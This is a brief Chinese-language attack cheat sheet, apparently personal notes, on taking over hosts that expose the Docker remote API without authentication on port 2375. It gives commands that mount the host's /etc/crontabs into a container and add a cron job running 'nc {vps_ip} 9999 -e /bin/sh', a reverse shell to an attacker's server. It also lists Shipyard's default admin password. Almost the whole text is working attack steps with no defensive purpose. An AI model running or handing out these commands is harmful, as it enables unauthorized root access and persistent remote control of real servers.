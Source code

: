 	默认端口2375
	>docker -H tcp://1.1.1.1:2375 images
	本地监听
	启动容器
	docker -H tcp://1.1.1.1:2375 run -id -v /etc/crontabs:/tmp alpine:latest
	docker -H tcp://1.1.1.1:2375 ps
	进入容器
	docker -H tcp://1.1.1.1:2375 exec -it a8ff7ed880fb sh
	echo '* * * * * /usr/bin/nc {vps_ip} 9999 -e /bin/sh' >> /tmp/root #添加计划任务
	cat /tmp/root 
	exit
	Shipyard默认密码
	admin/shipyard
